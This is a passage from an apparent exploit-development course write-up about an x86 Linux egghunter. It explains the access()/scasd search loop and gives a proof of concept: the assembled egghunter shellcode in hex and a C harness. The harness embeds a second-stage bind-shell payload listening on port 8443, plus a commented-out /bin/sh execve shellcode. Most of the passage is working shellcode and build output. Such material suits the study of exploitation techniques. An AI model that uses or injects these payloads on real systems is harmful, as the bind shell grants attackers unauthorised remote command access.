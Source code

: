 If the VAS is not valid (`EFAULT` returned from `access()`), it moves to the next page. If the VAS is valid, `scasd` instruction will compare the register `edi` which contains the pointer value to `eax` which contains the egg. If the first 4 bytes of `edi` is not the egg then it will jump to `inc_addr` which will go to the next address until it's found. If the first 4 bytes of `edi` is `0xdeafface`, it will check another next 4 bytes if it's matched too. If both 8 bytes is equal to `0xdeafface` `0xdeafface` which mean egg is found then the next instruction `jmp edi` will then execute the payload.

## Proof of Concept

First we'll need to compile and convert to hex our egghunter shellcode above.

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/egghunter$ make
[*] Assembling with nasm...
nasm -f elf32 -o access2.o access2.nasm

[*] Linking object...
ld -m elf_i386 -o access2 access2.o

[*] Size of Shellcode:
   text    data     bss     dec     hex filename
     35       0       0      35      23 access2

[*] Shellcode:
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\xce\xfa\xaf\xde\x89\xd7
\xaf\x75\xe9\xaf\x75\xe6\xff\xe7"

[*] Compiling shellcode...
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
{% endhighlight %}

From above shellcode, we can see our egg `\xce\xfa\xaf\xde`.
![image](/assets/img/assigment3_shellcode.png)

and from here we can customize our egg on the script:

{% highlight c linenos %}
#include<stdio.h>
#include<string.h>

#define EGG "\xce\xfa\xaf\xde"

unsigned char stage1[] = \
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8"
EGG
"\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";

// http://shell-storm.org/shellcode/files/shellcode-811.php
/*
unsigned char stage2[] = EGG EGG \
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89"
"\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80";
*/

// assigment #1 - bind shell 0.0.0.0:8443
unsigned char stage2[] = EGG EGG \
"\x31\xc9\xf7\xe1\x99\x6a\x66\x58\x6a\x01\x5b\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x97"
"\x6a\x66\x58\x6a\x02\x5b\x52\x66\x68\x20\xfb\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1"
"\xcd\x80\x6a\x66\x58\x6a\x04\x5b\x31\xf6\x56\x57\x89\xe1\xcd\x80\x6a\x66\x58\x6a\x05"
"\x5b\x56\x56\x57\x89\xe1\xcd\x80\x89\xc3\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x6a"
"\x0b\x58\x31\xc9\x51\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

main()